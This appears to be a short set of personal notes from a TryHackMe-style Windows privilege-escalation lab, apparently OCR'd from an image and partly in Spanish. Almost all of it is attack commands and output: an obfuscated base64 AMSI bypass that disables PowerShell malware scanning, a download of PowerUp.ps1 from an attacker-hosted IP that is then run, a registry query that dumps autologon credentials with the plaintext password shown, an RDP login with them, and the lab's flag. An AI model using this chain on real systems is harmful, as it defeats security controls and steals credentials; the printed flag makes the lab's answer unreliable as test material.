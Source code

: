 



[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)





https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1






(New-Object System.Net.Webclient).DownloadString('http://10.8.163.249:8000/PowerUp.ps1') > PowerUp.ps1


. ./Powerup.ps1


Invoke-AllChecks




CRedenciales de HUGO


reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"




[*] Checking for Autologon credentials in registry...


DefaultDomainName    : 
DefaultUserName      : hugo
DefaultPassword      : SurpriseMF123!
AltDefaultDomainName : 
AltDefaultUserName   : 
AltDefaultPassword   : 





xfreerdp /u:guho /p:SurpriseMF123! /v:10.201.2.142 /dynamic-resolution




THM{I_CAN_DO_THIS_ALL_DAY}